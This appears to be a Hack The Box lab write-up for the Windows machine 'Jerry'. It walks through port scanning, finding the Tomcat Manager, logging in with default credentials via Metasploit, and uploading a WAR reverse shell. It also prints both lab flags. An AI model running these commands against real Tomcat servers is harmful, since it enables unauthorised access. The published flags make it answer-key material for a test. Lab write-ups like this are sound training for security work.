 ````markdown
# 🧑‍💻 Hack The Box – (Jerry)

## 📌 Overview
- **Machine Name:** Jerry
- **IP Address(es):** 10.10.10.95
- **Difficulty:** Easy
- **OS:** Windows
- **Tags:** Tomcat / Default Credentials / WAR Upload / Metasploit
- **Date Completed:** 2025.08.31
- **Status:** ✅ User | ✅ Root

---

## 🖥️ Initial Recon

### RustScan
```zsh
rustscan -a 10.10.10.95 --ulimit 5000
````

**Open Port:**

* 8080 → HTTP (Apache Tomcat)

---

## 📂 Service Enumeration

### Nmap

```zsh
nmap -sC -sV -p 8080 10.10.10.95
```

* Apache Tomcat/7.0.88
* Apache-Coyote/1.1
* Likely Tomcat Manager running at `/manager`

### Content Discovery

```zsh
feroxbuster -u http://10.10.10.95:8080/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt
```

Found:

* `/manager/` → Tomcat Manager Console

---

## 🚀 Exploitation

### Brute-force Tomcat Manager

```zsh
msfconsole
use auxiliary/scanner/http/tomcat_mgr_login
```

Result:

```
[+] Login Successful: tomcat:s3cret
```

Default credentials worked.

### Upload WAR Reverse Shell

```zsh
use multi/http/tomcat_mgr_upload
```

* Uploaded `.war` file → triggered RCE
* Got Meterpreter session

---

## 🔑 Post Exploitation

Navigated to Administrator desktop:

```
C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt
```

Contents:

```
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90
```

✅ Both flags found in the same file.

---

## 🏁 Flags

* **User.txt:** `7004dbcef0f854e0fb401875f26ebd00`
* **Root.txt:** `04a8b36e1545a455393d067e772fe90`

---

## 🧠 Lessons Learned

**Technical**

* Apache Tomcat often exposes `/manager` endpoint with dangerous functionality.
* Default credentials (`tomcat:s3cret`) remain common misconfigurations.
* WAR deployment is an easy path to RCE if manager access is available.

**Personal**

* Remember to try default creds when identifying Tomcat.
* Content discovery quickly confirms manager panels.

**Reusable Techniques**

* Scan for `/manager` and `/host-manager` on Tomcat servers.
* Use `msfconsole` for quick brute-force of Tomcat credentials.
* Exploit via WAR upload → immediate reverse shell access.

